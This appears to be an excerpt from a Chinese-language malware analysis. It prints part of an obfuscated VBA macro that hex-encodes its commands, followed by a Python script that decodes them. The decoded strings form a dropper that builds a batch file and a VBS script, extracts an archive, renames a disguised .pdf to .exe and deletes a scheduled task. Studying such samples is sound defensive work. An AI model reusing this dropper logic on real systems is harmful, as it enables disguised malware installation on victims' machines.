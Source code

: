 ```vbscript
request.WriteLine (TringTring("3e3e2576627325204543484f204966204e4f542066736f2e466f6c64657245786973747328253129205468656e"))
request.WriteLine (TringTring("3e3e2576627325204543484f2066736f2e437265617465466f6c64657228253129"))
request.WriteLine (TringTring("3e3e2576627325204543484f20456e64204966"))
request.WriteLine (TringTring("3e3e2576627325204543484f20736574206f626a5368656c6c203d204372656174654f626a65637428225368656c6c2e4170706c69636174696f6e2229"))
request.WriteLine (TringTring("3e3e2576627325204543484f207365742046696c6573496e5a69703d6f626a5368656c6c2e4e616d655370616365282532292e6974656d73"))
request.WriteLine (TringTring("3e3e2576627325204543484f206f626a5368656c6c2e4e616d655370616365282531292e436f7079486572652846696c6573496e5a697029"))
request.WriteLine (TringTring("3e3e2576627325204543484f205365742066736f203d204e6f7468696e67"))
request.WriteLine (TringTring("3e3e2576627325204543484f20536574206f626a5368656c6c203d204e6f7468696e67"))
request.WriteLine (TringTring("63736372697074202f2f6e6f6c6f676f202576627325"))
request.WriteLine (TringTring("49462045584953542025766273252044454c202f66202f71202576627325"))
request.WriteLine (TringTring("64656c202f6620433a5c55736572735c5075626c69635c4d757369635c636f6d642e7a6970"))
request.WriteLine (TringTring("72656e20433a5c55736572735c5075626c69635c4d757369635c636f6d642e70646620636f6d642e657865"))
request.WriteLine (TringTring("7363687461736b73202f64656c657465202f746e20546c735f53534c202f66"))
request.WriteLine (TringTring("65786974"))
request.Close
Set fso = Nothing
Set request = Nothing

   Name (TringTring("433a5c55736572735c5075626c69635c4d757369635c7062732e747874")) As _
   (TringTring("433a5c55736572735c5075626c69635c4d757369635c7062732e626174"))

Call GHJFGHJGakh
   End Sub

```

TringTring 自定义函数可以使用对等的 python 脚本处理，代码如下：

```python
path = ["433a5c55736572735c5075626c69635c4d757369635c","433a5c55736572735c5075626c69635c4d757369635c7062732e747874","404543484f206f6666","7365746c6f63616c","4344202f6420257e647030","43414c4c203a556e5a697046696c652022433a5c55736572735c5075626c69635c4d75736963222022433a5c55736572735c5075626c69635c4d757369635c636f6d642e7a697022","45584954202f62","3a556e5a697046696c65203c45787472616374546f3e203c6e65777a697066696c653e","534554207662733d222574656d70255c5f2e76627322","49462045584953542025766273252044454c202f66202f71202576627325","3e2576627325204543484f205365742066736f203d204372656174654f626a6563742822536372697074696e672e46696c6553797374656d4f626a6563742229","3e3e2576627325204543484f204966204e4f542066736f2e466f6c64657245786973747328253129205468656e","3e3e2576627325204543484f2066736f2e437265617465466f6c64657228253129","3e3e2576627325204543484f20456e64204966","3e3e2576627325204543484f20736574206f626a5368656c6c203d204372656174654f626a65637428225368656c6c2e4170706c69636174696f6e2229","3e3e2576627325204543484f207365742046696c6573496e5a69703d6f626a5368656c6c2e4e616d655370616365282532292e6974656d73","3e3e2576627325204543484f206f626a5368656c6c2e4e616d655370616365282531292e436f7079486572652846696c6573496e5a697029","3e3e2576627325204543484f205365742066736f203d204e6f7468696e67","3e3e2576627325204543484f20536574206f626a5368656c6c203d204e6f7468696e67","63736372697074202f2f6e6f6c6f676f202576627325","49462045584953542025766273252044454c202f66202f71202576627325","64656c202f6620433a5c55736572735c5075626c69635c4d757369635c636f6d642e7a6970","72656e20433a5c55736572735c5075626c69635c4d757369635c636f6d642e70646620636f6d642e657865","7363687461736b73202f64656c657465202f746e20546c735f53534c202f66","65786974","433a5c55736572735c5075626c69635c4d757369635c7062732e747874","433a5c55736572735c5075626c69635c4d757369635c7062732e626174"]
path1 = ""

for a in path:
    for b in range(0,len(a),2):
        path1 += chr(int("0x" + a[b:b+2],16))
    print(path1)
    path1 = ""
```
